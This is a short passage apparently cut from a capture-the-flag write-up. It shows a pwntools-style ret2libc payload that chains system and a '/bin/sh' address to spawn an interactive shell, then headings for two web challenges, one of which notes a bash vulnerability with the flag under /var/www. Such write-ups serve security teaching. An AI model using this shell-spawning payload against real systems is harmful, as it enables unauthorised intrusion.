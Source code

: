 ```

payload = junk + l32(system) + junk + l32(binsh) 
io.write(payload.ljust(32, 'A'))

io.interact()

```

￼￼￼￼Safesite Web 400

### Up-to-Date Web 100

bash 漏洞,flag 在/var/www 下 ￼

![enter image description here](http://drops.javaweb.org/uploads/images/c4b9fd472fd34920d9f575b586f527b87c482060.jpg)